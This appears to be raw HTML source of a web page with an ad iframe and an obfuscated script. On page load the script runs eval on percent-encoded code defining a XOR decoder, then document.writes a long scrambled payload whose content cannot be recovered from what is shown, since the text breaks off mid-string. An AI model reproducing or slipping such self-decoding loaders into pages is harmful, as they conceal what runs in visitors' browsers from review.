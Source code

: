 
<html>
<head>
</head>
<body>
<Center><iframe data-aa="1507938" src="//ad.a-ads.com/1507938?size=320x50" scrolling="no" style="width:320px; height:50px; border:0px; padding:0; overflow:hidden" allowtransparency="true"></iframe></center>
<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%61%35%35%64%65%63%38%61%65%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%31%39%35%36%39%36%34%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%35%35%38%39%33%38%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%32%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%61%35%35%64%65%63%38%61%65%28%27') + '%3f%18%47%4a%47%54%50%4b%46%16%6f%71%63%6f%3b%0e%0f%3c%60%75%6e%6f%16%63%5c%64%60%3c%25%64%6a%26%3b%0e%0d%03%01%39%6e%66%58%67%3b%0d%0e%0c%0d%3f%62%6e%6f%61%1b%61%75%64%62%3d%22%63%77%7a%67%72%30%28%2a%70%72%73%2a%75%68%68%64%78%65%7b%65%2b%6e%6d%2b%62%58%71%62%69%64%6f%24%62%66%68%22%18%76%64%6f%3e%2d%6e%62%65%69%22%1b%75%71%68%64%3e%20%6f%62%5c%6d%66%2a%73%2c%61%67%6a%69%20%25%35%08%00%1b%19%1b%19%3c%6d%64%77%5a%16%6f%71%7a%6b%2c%66%68%75%61%73%3e%25%49%64%6f%7a%66%6b%77%2c%54%71%69%66%25%16%68%6e%64%77%64%69%75%3d%26%75%66%73%7a%24%65%7a%6e%6d%3c%19%67%60%58%75%74%6b%7b%38%7b%77%63%2e%31%26%3a%0c%0d%1b%16%17%1d%32%6e%64%77%58%18%60%75%77%6b%23%6a%6c%7b%62%73%3e%27%50%2d%54%3a%2e%49%64%68%66%5a%75%62%67%6c%65%27%1b%64%65%65%71%6b%69%75%3e%27%41%45%3c%66%67%6d%6a%23%34%0e%0f%1b%19%18%18%3d%6e%66%7a%56%1d%64%5a%6c%66%3c%26%72%60%66%70%66%64%73%7a%25%19%64%6a%6a%74%64%69%77%33%29%76%6f%67%75%63%3c%64%65%73%62%64%6b%22%76%6f%67%75%63%2d%18%61%6b%62%77%6f%56%69%23%74%66%5a%6d%65%3d%28%29%2b%28%35%08%00%0e%0f%0e%0f%18%18%19%1b%3f%7a%6e%71%62%66%3b%40%6a%6b%63%6d%66%1b%4a%79%64%7c%66%19%2e%19%54%4b%4a%49%54%4e%5a%43%24%4e%4d%3f%2a%74%61%75%6f%66%34%02%0b%03%0d%0c%0d%19%18%18%19%3f%1a%23%22%1d%49%54%56%1b%55%59%63%19%2e%2e%34%02%0b%16%1b%19%1b%3d%6c%61%6b%6c%1b%6e%79%60%6c%3e%27%63%75%74%68%76%3d%28%25%7b%6e%65%69%76%63%74%66%2a%62%62%77%6e%7a%63%24%62%6a%28%67%65%74%58%28%74%7a%79%60%57%6e%2a%74%75%71%6c%64%29%64%79%78%23%16%75%64%6f%3c%26%77%75%72%6f%6b%78%65%6b%66%75%25%19%74%71%69%66%3e%28%7b%60%7e%77%2a%64%76%77%26%19%28%39%03%01%1d%16%1b%19%3f%76%67%76%60%6b%77%16%78%73%69%3e%27%63%75%74%68%76%3d%28%25%7b%6e%65%69%76%63%74%66%2a%62%62%77%6e%7a%63%24%62%6a%28%67%65%74%58%28%74%7a%79%60%57%6e%2a%6d%68%75%65%77%72%29%63%6e%6f%24%6d%76%25%3b%3c%2b%76%64%75%6f%67%71%34%0e%0f%3f%6d%61%6a%6e%1b%63%78%6a%67%33%20%61%77%75%68%77%3f%28%28%69%6b%6f%60%74%2b%64%6d%6b%75%65%61%6f%57%79%60%24%64%6a%6e%2a%59%6e%58%73%28%62%6e%63%79%28%63%68%6b%74%2d%58%70%66%79%64%68%6b%28%34%29%28%34%2a%29%28%64%79%78%2e%57%6f%6d%29%6c%61%6a%2b%64%74%79%2c%1d%78%66%6d%3e%22%77%74%70%6f%66%79%6f%60%6b%77%22%28%3b%0d%0e%3d%74%77%7f%63%60%34%0e%0f%28%2f%74%60%64%1b%64%65%65%71%57%62%6b%66%77%18%6d%74%74%77%16%69%60%16%6b%6a%74%60%74%61%6a%69%66%6a%17%73%6b%6f%58%77%60%72%65%3f%2d%28%03%01%2f%69%76%76%77%6a%6d%2d%76%66%6f%6b%68%71%16%7c%0c%0d%19%18%68%6a%74%62%7a%6e%6e%64%3d%19%75%64%6c%59%75%62%71%6b%30%08%00%1b%19%70%60%64%74%61%3d%2a%26%27%20%17%62%6c%6b%6a%76%74%58%69%77%31%02%0b%73%0e%0f%3f%2a%77%74%70%6f%66%34%02%0b%32%74%66%75%60%68%74%3b%0e%0d%16%17%1d%16%71%58%75%19%61%62%77%5a%6e%6b%17%38%16%60%64%77%54%76%6c%53%5a%75%79%2f%24%51%25%60%67%27%5d%3f%0c%0d%1b%16%17%1d%6c%76%6b%64%75%61%6b%6b%1b%60%6b%7b%50%78%6f%53%5a%77%77%20%20%1b%7c%03%01%1d%16%1b%19%1b%19%18%18%73%5a%75%16%7d%5c%78%74%19%3e%19%7f%7d%3e%0e%0d%16%17%1d%16%1b%19%1b%19%72%59%77%1b%6b%57%79%71%79%1b%3c%1b%72%61%6a%65%68%70%24%63%6e%69%5a%75%62%6a%6a%2a%61%75%66%6c%25%73%6b%6b%6d%5a%66%65%20%2a%5c%38%2c%52%2a%2e%5c%5b%3e%23%5d%2f%20%3e%23%51%55%27%53%2d%20%28%62%61%2c%19%61%76%64%68%71%6f%68%6b%1b%21%6d%2c%19%6c%66%7f%23%1d%7c%5a%6d%76%64%21%18%7e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%71%57%79%72%51%6c%64%72%5c%18%3d%19%71%5a%62%7a%60%31%0e%0f%1b%19%18%18%19%1b%1b%16%72%24%31%0e%0f%1b%19%18%18%19%1b%1b%16%79%60%7a%76%77%69%19%72%59%77%74%3c%03%01%1d%16%1b%19%7e%0c%0e%18%19%1b%1b%7c%56%73%16%67%19%3e%19%64%6b%66%76%6e%6b%65%71%31%0e%0f%3f%2a%77%67%77%62%6b%7a%35%04%0f%0e%0f%3f%76%67%76%60%6b%77%16%7b%74%66%66%3c%25%75%65%70%75%28%6d%57%7d%5c%79%64%77%62%69%74%26%3b%0e%0d%0f%0e%04%6c%76%6b%64%75%61%6b%6b%1b%74%6b%7b%44%6c%75%58%6e%64%57%6b%74%75%64%6b%2f%24%16%7c%0c%0d%00%01%01%00%71%5a%78%17%71%6e%66%56%66%6d%65%67%75%1b%3e%16%6b%6e%69%76%6c%66%6b%74%2a%62%66%77%4b%63%60%63%66%6b%77%47%71%41%65%23%20%62%64%62%57%77%60%68%6b%23%21%3e%0e%0d%0f%0e%04%0f%71%58%75%19%74%60%64%42%61%78%56%68%6b%1b%3c%1b%65%6b%67%74%6e%66%64%7b%2f%6d%66%75%46%6d%65%6d%64%69%77%48%7e%44%6a%23%22%6e%70%41%62%77%5a%6e%6b%2c%24%31%0e%0f%02%00%01%01%73%5a%75%16%7b%65%6b%56%77%6f%3e%0d%0e%00%02%02%0f%02%0b%0f%02%00%02%75%60%65%54%75%6f%16%32%1d%7a%63%64%54%64%6c%65%66%77%29%65%67%71%6f%68%6b%74%5e%74%60%64%54%66%62%6a%62%7a%29%76%66%6d%65%67%75%66%67%4f%65%61%6b%73%5c%29%73%59%6c%74%66%3c%03%01%04%0f%02%00%77%61%65%41%63%75%5a%63%6a%2f%79%75%66%1b%3c%18%74%61%66%56%78%63%3a%03%0d%00%02%00%7d%0d%0f%02%02%32%24%72%69%75%60%6b%75%3a%0d%0f%3f%74%7a%7e%69%6b%39%61%75%7e%66%6b%77%67%66%78%22%71%65%6b%3f%2a%69%70%18%76%68%6f%6f%6b%1d%29%61%63%61%63%62%62%3e%67%62%79%67%69%57%72%3f%65%6d%6b%67%6e%3c%6e%57%79%66%6f%69%2c%65%6a%74%74%6a%6e%3d%27%3d%6d%7e%3c%72%62%65%74%60%3f%32%2b%2b%72%2f%68%77%6b%2e%61%6b%72%64%75%1b%71%7b%60%7e%77%2c%77%77%59%6a%76%61%68%78%62%3b%7b%6b%69%66%77%67%59%76%66%3c%6c%64%6f%7a%2e%72%66%60%63%60%75%3d%2a%38%27%2d%31%70%60%67%75%60%3e%19%35%30%3b%67%75%31%1b%63%68%6b%74%2d%76%62%7d%6b%31%1d%27%31%69%73%3e%18%62%6a%69%77%23%7c%60%6f%60%61%77%3f%18%32%29%2b%3c%16%68%6e%62%68%77%3d%19%27%62%63%61%3c%16%68%70%78%74%6a%75%3f%18%68%6a%62%69%7a%6a%73%31%1b%6c%5a%77%63%61%6b%3d%1b%27%3b%6d%7e%3c%19%63%64%61%63%61%77%3d%16%3a%30%66%73%3e%1b%75%65%70%75%2e%5a%62%6e%66%64%3d%19%64%64%6a%74%64%75%3c%16%69%6e%78%67%64%75%3f%18%6a%6a%69%66%31%17%63%57%64%6e%60%77%6b%75%6b%67%2e%79%6e%7b%6b%3d%19%34%29%28%25%19%2a%2b%26%2a%3a%16%65%6a%75%65%65%76%2c%75%5a%6a%6e%70%79%3d%19%36%29%68%70%3e%1b%6e%65%71%28%7a%75%58%69%76%61%74%60%68%69%30%17%5c%62%6f%19%29%35%77%18%64%5a%74%6b%22%64%64%2e%6a%76%75%3f%18%2c%68%2e%7a%79%5c%64%74%60%77%60%6b%6a%3f%1b%5a%62%63%1d%24%37%76%1b%64%59%77%64%2e%62%64%22%6e%7b%77%3e%1b%2c%73%65%67%6c%62%7a%22%71%78%5a%6b%74%60%74%61%6a%69%3d%16%56%69%62%1b%2b%37%76%18%65%58%74%66%23%6e%6f%23%68%74%77%3e%18%74%77%5a%69%79%6e%71%6f%68%6b%3d%19%59%6c%6d%1b%29%3a%78%1d%6b%5a%76%66%2c%61%6a%2c%68%76%7a%30%78%24%65%75%69%2c%60%6b%73%66%75%30%6f%6e%7c%66%77%1b%7e%18%66%58%64%6c%6d%79%6e%7b%69%65%2e%69%6b%77%60%77%62%65%65%3b%16%2a%29%2b%24%18%28%3e%1b%6e%65%71%28%7a%75%58%69%76%61%74%60%68%69%30%17%5c%62%6f%19%29%35%77%18%64%5a%74%6b%22%64%64%2e%6a%76%75%3f%18%2c%68%2e%7a%79%5c%64%74%60%77%60%6b%6a%3f%1b%5a%62%63%1d%24%37%76%1b%64%59%77%64%2e%62%64%22%6e%7b%77%3e%1b%2c%73%65%67%6c%62%7a%22%71%78%5a%6b%74%60%74%61%6a%69%3d%16%56%69%62%1b%2b%37%76%18%65%58%74%66%23%6e%6f%23%68%74%77%3e%18%74%77%5a%69%79%6e%71%6f%68%6b%3d%19%59%6c%6d%1b%29%3a%78%1d%6b%5a%76%66%2c%61%6a%2c%68%76%7a%30%78%24%65%75%69%2c%60%6b%73%66%75%30%6d%6e%69%76%76%1b%7e%18%6b%74%77%6f%6f%65%60%30%1b%6b%68%6b%65%3f%7c%29%65%7a%65%28%6e%68%73%66%77%2a%67%6a%6f%68%78%22%2c%16%7c%19%65%58%67%6f%62%75%68%7b%65%61%23%62%6c%5a%62%65%3e%19%6f%62%64%6a%5c%78%2e%62%75%58%64%61%64%69%77%2e%7b%6e%16%75%60%60%61%74%2c%19%24%35%3b%56%5c%6b%2a%2d%1b%26%34%28%64%37%32%3b%23%1d%29%34%29%67%65%30%59%2d%1b%24%38%69%63%3c%30%36%22%3e%18%66%6a%73%2e%79%6f%5c%6a%68%72%3d%19%28%18%35%6b%73%16%26%30%66%73%19%2b%19%76%63%67%5a%23%3a%3e%29%16%2a%30%31%2d%18%29%30%2b%2f%16%27%2f%3d%36%20%3c%7c%2a%66%75%69%2e%6e%64%77%6b%75%2b%64%6a%6c%6b%77%2e%35%16%70%1d%68%5a%66%6c%62%76%6b%74%69%67%23%6e%68%57%60%64%3d%19%6c%61%6b%66%5a%78%22%66%78%5a%65%62%64%6a%74%21%77%68%16%79%64%6d%63%75%2f%19%27%62%34%64%66%3c%39%29%16%24%64%37%36%32%28%36%2f%1b%29%6d%5c%3d%2a%30%32%2d%18%27%64%33%36%57%26%34%2f%3c%7c%29%67%74%6a%2c%63%68%7c%6a%73%24%64%6a%6f%6a%76%2d%36%1b%7c%16%69%5c%69%6c%62%75%6a%75%6a%65%2e%62%63%56%66%6b%3d%19%6f%60%6a%65%58%75%2e%6d%79%5c%6a%62%64%69%75%20%74%6a%1b%75%6f%6c%65%7a%2f%19%24%33%32%33%64%66%5a%22%17%22%3d%31%35%65%58%36%2c%19%24%31%48%3f%41%4a%31%2d%1b%26%30%45%36%30%47%3d%2e%3a%16%65%6a%73%2c%77%60%58%67%68%7d%31%1d%26%1b%35%6b%71%18%29%34%6b%73%16%27%1d%78%60%67%5a%21%29%29%33%2f%1b%3d%3e%29%16%2a%33%33%2d%18%28%2b%30%36%2f%30%78%24%65%75%69%2c%60%6b%73%66%75%24%68%6e%62%68%77%2e%35%18%7f%19%65%5a%69%60%66%78%68%74%69%65%2d%61%6c%5a%60%6b%31%1d%62%62%6b%66%58%76%2d%62%75%5a%6a%6e%60%64%77%21%77%6a%18%76%60%60%63%7a%23%1d%29%61%66%31%29%33%32%2d%1b%24%6c%6d%34%57%37%35%2f%19%27%65%63%32%67%3a%38%29%16%24%64%30%34%35%29%33%22%3c%16%69%6e%7e%2e%76%63%58%64%6b%72%3d%1b%26%17%31%66%73%19%2a%34%68%70%19%2b%1b%78%6c%63%57%23%37%36%37%2c%18%28%2b%37%22%17%2c%27%2b%2d%1b%29%2a%33%34%22%3c%73%25%63%7a%69%2c%63%6a%72%65%77%29%64%65%63%6e%78%2e%34%1b%7e%18%66%58%64%6c%6d%79%6e%7b%69%65%2e%60%6d%59%62%66%3d%16%63%64%64%66%58%75%2c%63%76%58%67%62%6b%65%71%2e%77%6a%1b%77%61%63%61%77%2f%16%28%2d%68%5a%36%31%29%2c%18%26%34%64%68%56%34%38%2f%19%24%36%28%64%65%33%5a%22%17%22%38%65%67%31%32%37%21%3e%1b%65%65%7f%28%79%63%58%67%6a%73%3e%19%2b%1b%3a%67%75%16%2a%34%6b%71%18%28%19%75%60%68%56%25%38%34%2d%1b%28%32%30%2d%1b%2a%26%3f%29%16%2b%2b%30%34%21%3f%7c%29%65%7a%65%28%6e%68%73%66%77%2a%67%6a%6f%68%78%22%37%16%7c%19%65%58%67%6f%62%75%68%7b%65%61%23%62%6c%5a%62%65%3e%19%6f%62%64%6a%5c%78%2e%62%75%58%64%61%64%69%77%2e%7b%6e%16%75%60%60%61%74%2c%19%24%2b%26%3e%33%3a%36%2d%1b%26%42%47%44%46%35%27%23%1d%29%2b%29%3a%31%47%35%2d%1b%24%4a%3e%40%26%35%28%22%3e%18%66%6a%73%2e%79%6f%5c%6a%68%72%3d%19%28%18%35%6b%73%16%26%30%66%73%19%2b%19%76%63%67%5a%23%3e%38%29%16%2a%32%31%2d%18%35%32%2f%1b%26%25%36%3b%22%3e%7e%2b%66%74%6b%2e%63%65%7d%60%78%29%66%68%6d%6b%76%2c%30%1b%71%17%63%57%64%6e%60%77%6b%75%6b%67%2e%6f%62%5c%6d%66%3f%1b%6d%61%6a%64%5a%75%23%6c%73%57%67%60%66%6b%74%20%75%68%1b%78%6e%66%6e%77%2d%1b%26%32%36%34%34%66%27%23%1d%29%33%34%35%45%31%29%2d%1b%24%37%38%3c%27%41%43%2f%19%27%42%37%37%31%3a%3a%24%31%1b%67%68%71%2d%77%61%5a%67%65%7c%3b%16%2b%19%37%69%70%18%28%36%6b%7e%17%2d%16%75%62%65%58%20%29%37%31%2f%16%3a%33%22%1b%28%31%28%2c%18%29%29%30%3b%2e%3a%73%29%67%77%6b%2d%60%6a%71%66%78%25%62%65%6f%6a%75%2c%30%18%7e%1b%65%57%68%6a%6d%75%6a%76%6b%64%2d%60%6e%5a%6d%6a%3b%16%6f%60%69%64%59%76%2c%60%75%57%6b%64%6b%69%75%23%75%6b%18%77%62%60%6e%7b%29%16%24%37%32%36%36%37%66%2f%1b%29%3b%35%3b%36%33%34%2d%18%27%37%65%36%3e%3c%37%22%1b%26%37%64%34%37%32%31%22%31%17%63%65%73%2c%74%61%59%64%6a%70%3d%16%27%1d%3a%6b%71%1b%28%35%68%71%1b%2b%16%79%66%68%5a%21%37%34%2c%18%34%37%2f%16%3d%30%22%1b%29%29%32%35%21%3e%7e%29%68%7b%6f%23%63%6a%71%64%76%2a%66%68%6f%65%79%28%3f%1b%7e%1b%67%59%67%6e%60%75%65%7a%6f%6a%2e%60%6e%58%63%65%3f%1b%6f%6f%65%60%57%75%2c%60%77%59%64%60%66%69%7a%2f%71%65%1b%77%62%62%60%74%2d%1b%24%38%3a%5c%57%66%28%2f%19%27%34%35%33%2a%6b%69%29%16%24%29%37%67%65%62%64%2f%1b%29%38%67%3e%31%64%67%20%3f%18%67%68%73%23%78%65%57%67%6a%70%3f%18%28%19%34%6b%7e%17%2c%38%6b%71%1b%29%18%76%62%65%5a%2e%3b%34%22%1b%28%32%33%2c%18%28%32%2b%22%17%2d%24%30%34%22%3e%7d%2a%67%77%69%23%6f%6e%7c%66%77%29%66%6b%6c%6a%75%2e%27%27%1d%71%1b%67%5a%66%6f%63%77%68%76%64%6b%28%6f%6e%58%60%64%3e%18%6d%62%69%6b%56%73%23%60%77%5a%65%61%65%6b%77%23%7a%64%1d%78%62%62%63%75%2c%18%26%66%67%3c%6a%5c%26%2f%19%24%64%67%30%66%31%32%22%17%22%6c%30%28%33%33%59%18%2d%1b%24%4c%49%43%26%34%47%22%3e%18%66%6a%73%2e%79%6f%5c%6a%68%72%3d%19%28%18%35%6b%73%16%26%30%66%73%19%2b%19%76%63%67%5a%23%38%38%37%22%1b%28%2a%33%2c%18%28%37%32%22%17%2d%24%30%34%22%3e%7d%2a%67%77%69%23%6f%6e%7c%66%77%29%66%6b%6c%6a%75%2e%27%26%1d%71%1b%67%5a%66%6f%63%77%68%76%64%6b%28%6f%6e%58%60%64%3e%18%6d%62%69%6b%56%73%23%60%77%5a%65%61%65%6b%77%23%7a%64%1d%78%62%62%63%75%2c%18%26%66%65%39%3e%31%27%2f%19%24%63%29%35%64%31%37%22%17%22%6b%2a%35%66%34%37%2c%19%24%66%38%38%36%39%61%20%3c%19%66%6b%71%2e%74%6e%56%61%65%70%3f%1b%29%18%35%69%73%1b%27%3a%6d%7e%1b%77%60%67%59%20%37%37%35%22%17%34%3d%2f%19%2a%29%37%2c%19%29%37%2f%30%78%32%28%76%77%70%6c%65%3b%0e%0d%32%78%71%7f%6f%64%39%60%6d%63%7e%6e%5a%7e%22%76%6f%67%75%63%3f%32%28%29%6b%73%73%02%0b%6e%75%7e%64%6a%6c%6b%77%3d%24%57%56%5c%57%5a%58%7e%0c%0e%2b%2f%1b%54%7a%7e%69%6b%1b%67%76%75%74%6b%6b%74%1b%20%24%08%00%29%67%77%6b%18%7f%0c%0d%1b%16%69%5c%69%6c%62%75%6a%75%6a%65%2e%64%65%63%6e%78%3d%19%47%6a%64%63%64%75%45%62%7a%60%31%0e%0f%1b%19%66%6b%77%67%66%78%31%1d%64%68%6b%66%3e%0d%0e%19%1b%64%65%63%6e%78%3d%19%70%61%61%74%64%3c%0e%00%17%1d%66%5a%65%67%60%6a%63%3f%1b%2a%38%67%75%16%34%29%6b%71%3f%0d%0f%1b%1b%69%7a%73%79%68%77%3d%19%68%6b%60%69%77%6b%79%3a%03%0d%19%1b%63%6b%6a%75%2e%74%6f%71%60%30%1b%28%33%69%70%3f%0c%0d%7e%03%01%08%00%28%2f%1b%45%59%76%6e%66%75%16%69%5c%69%6c%62%75%6a%75%6a%65%1b%68%64%17%68%65%76%76%66%2c%6b%72%64%75%1b%20%24%08%00%29%67%77%6b%3e%60%6a%71%66%78%17%7a%03%0d%19%1b%67%59%67%6e%60%75%65%7a%6f%6a%2e%66%68%6d%6b%76%3f%1b%55%65%7e%5c%62%45%6d%76%64%3f%0d%0f%7e%0e%00%25%73%6b%74%69%2e%66%6b%6a%75%5a%62%64%6a%73%16%7c%0c%0d%19%18%18%19%6b%68%79%6e%71%6f%68%6b%3d%19%76%65%6d%5a%77%6f%7d%60%31%0e%0f%1b%19%18%18%6a%71%66%78%6d%69%65%70%3f%1b%61%61%64%65%66%69%31%02%0b%16%1b%19%1b%69%59%64%65%62%69%6d%22%71%65%6b%3f%1b%34%32%2a%37%36%26%31%02%0b%73%0e%0f%0e%0f%2a%76%64%74%6b%23%6e%67%78%5a%6c%66%19%7f%0d%0f%1b%1b%16%17%6d%65%74%60%77%60%6b%6a%3f%1b%5a%68%78%6e%62%76%75%66%3e%0d%0e%19%1b%1b%16%7b%6e%66%3d%19%2b%3e%0d%0e%19%1b%1b%16%63%60%6c%77%3f%1b%29%3f%0d%0f%1b%1b%16%17%76%6f%67%75%63%3f%18%29%29%2b%26%31%02%0b%16%1b%19%1b%61%65%61%62%63%77%30%17%2c%26%2b%24%3c%0c%0e%18%19%1b%1b%68%64%73%6a%66%77%3d%19%28%3f%0c%0d%7e%03%01%08%00%3f%2a%74%75%71%6c%64%39%0e%00%33%2e%6e%66%58%67%3b%0d%0e%0c%0d%3f%68%64%61%7f%1b%66%6f%58%77%77%3c%25%6e%6f%65%28%7c%63%2c%2a%29%28%18%65%2e%61%62%6a%75%16%61%6d%66%71%2d%67%6a%6f%76%63%65%23%34%0e%0f%1b%19%18%18%3d%69%5a%7c%17%62%62%5a%76%74%3c%26%6a%58%71%65%57%79%1d%64%5a%73%65%58%76%2d%64%73%6b%57%65%61%23%6f%62%1b%6b%59%72%67%5a%75%23%63%64%6d%63%75%1b%67%63%2d%72%63%62%7a%6a%1d%68%68%77%67%64%76%2d%67%68%77%7a%64%68%16%65%6a%75%65%65%76%2c%6f%62%6d%6f%71%16%61%60%73%64%64%2d%75%68%6b%28%35%08%00%1b%19%1b%19%18%18%19%1b%3f%6a%6e%77%16%64%6d%5a%76%77%3d%27%64%68%64%7b%5c%6f%69%64%75%2c%62%6c%74%62%67%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%5a%19%64%6d%59%77%76%3e%25%64%56%77%68%5a%77%2e%67%76%59%6b%67%25%16%6f%73%6b%61%3c%25%2a%2b%26%19%77%62%7a%63%60%33%25%55%68%6a%6a%77%41%76%65%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%3d%61%6d%62%1b%74%78%68%38%28%63%75%77%69%77%3e%2a%28%75%57%7c%2f%6d%62%75%63%74%66%75%76%66%75%69%64%6f%7a%66%6b%77%2b%67%6b%6c%28%57%65%64%6f%79%43%74%65%2a%54%6b%6a%69%74%4e%7a%63%24%60%60%77%61%75%66%2b%62%68%25%62%5c%79%77%64%75%2a%66%65%75%5a%28%62%64%66%65%29%69%69%62%26%18%61%66%62%6d%6f%71%33%25%36%2b%27%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%64%6d%5a%76%77%3d%27%6f%5a%70%7e%69%65%5a%65%1b%65%2d%61%6b%6f%62%64%6a%28%68%6f%6a%64%6e%18%59%6d%62%60%64%22%71%65%6b%27%1b%58%6c%74%3c%25%57%65%64%6f%79%43%74%65%27%3a%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%3d%28%5a%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%39%68%76%75%77%6a%6a%18%66%6f%5a%79%78%38%28%69%58%71%67%59%76%2c%77%68%6d%6c%69%6b%75%27%1b%75%71%68%64%3e%25%68%7a%71%7a%68%6b%25%19%64%59%75%5a%2e%7a%64%66%6d%6f%64%3e%27%67%6b%6d%6f%5a%66%78%60%28%1b%65%5a%75%59%2d%75%5a%75%6d%6a%71%33%25%26%69%58%72%66%58%75%55%6b%78%6d%65%69%76%62%73%65%26%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%5c%78%62%58%2e%66%6b%6a%75%75%68%62%78%38%28%69%58%71%67%59%76%57%66%74%66%64%6f%79%62%73%66%27%18%59%77%62%5a%23%63%5c%68%66%6d%3e%27%54%6b%62%60%6f%6b%17%6f%57%71%60%60%58%74%61%6a%69%25%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%76%68%59%6b%1b%64%62%56%72%79%3e%27%69%58%72%66%58%75%2e%7a%64%66%6d%6f%64%75%2c%61%67%6a%69%25%34%33%2e%79%6b%58%69%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%2a%65%76%7a%7b%6e%64%39%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%65%61%72%19%64%6f%57%78%72%33%25%66%68%6d%6c%59%69%74%66%16%65%5c%7c%65%58%75%2c%67%6b%6d%6f%5a%66%78%60%28%1b%60%67%3c%26%6a%58%71%65%57%79%53%6b%74%69%68%6b%77%61%73%66%25%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%65%61%72%19%64%6f%57%78%72%33%25%6b%5a%73%66%59%77%2e%69%57%7d%1d%63%72%2c%34%19%6d%71%2c%6f%60%23%27%1d%65%75%65%66%77%2d%36%27%39%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%62%6a%75%6e%16%6e%61%33%25%68%76%60%67%6f%5a%74%66%57%79%62%6e%58%63%68%77%6d%26%19%64%6f%57%78%72%33%25%6b%5a%73%66%59%77%2e%61%65%79%68%16%62%6b%6b%74%74%2d%62%75%68%7b%67%1d%6f%69%69%76%75%2d%63%77%68%76%66%22%72%63%25%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%58%64%75%61%6b%6b%3e%25%25%29%1d%63%66%75%63%6a%64%3d%27%60%66%7a%29%3f%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%62%6b%6b%74%74%18%75%72%6b%6b%32%23%7a%66%71%77%27%18%72%58%6f%76%6b%32%23%28%1b%6b%5a%6c%65%3d%27%74%25%16%6e%61%33%25%76%66%58%76%67%61%25%1b%69%63%5c%79%74%3c%25%63%6b%76%6c%2e%64%65%65%71%78%68%6d%25%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%6b%6f%57%68%60%6e%68%6d%67%64%76%3d%27%5c%57%65%64%6f%79%43%74%65%5c%18%57%64%5a%75%69%6f%2f%24%29%27%1b%58%75%74%6a%64%68%63%67%69%6b%77%64%3e%27%6b%62%63%25%39%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%2a%61%68%78%62%3f%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%2b%65%62%71%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%74%6c%18%66%6f%5a%79%78%38%28%69%58%71%19%6a%59%73%65%5a%78%22%6f%57%71%19%6e%77%2d%59%74%77%68%16%64%73%6a%66%77%2e%28%26%3a%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%6d%61%18%66%6f%5a%79%78%38%28%69%58%71%2c%61%74%64%6e%25%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%33%5c%16%64%6d%5a%76%77%3d%27%69%5a%7c%22%69%6f%69%6e%25%19%60%76%64%61%3e%28%24%23%34%3f%60%1b%66%6c%59%76%74%3e%28%6d%5c%79%1b%63%5a%2c%60%6b%6c%66%1b%6c%56%28%6c%70%27%39%3d%2b%61%3b%1b%43%65%62%60%32%28%58%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%28%6d%62%3b%0d%0e%0c%0d%0e%00%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%2a%75%6c%3b%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%76%6d%1b%66%6c%59%76%74%3e%28%65%5c%7c%65%58%75%2c%6a%59%73%1b%6e%7f%22%33%16%6e%70%2e%6d%63%2d%29%1b%6e%7e%22%69%6d%2e%37%1b%6a%76%64%64%75%2e%39%29%3f%03%0d%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%33%69%6f%1b%66%6f%58%77%77%3c%25%69%57%7d%28%6f%77%64%6e%27%3a%0d%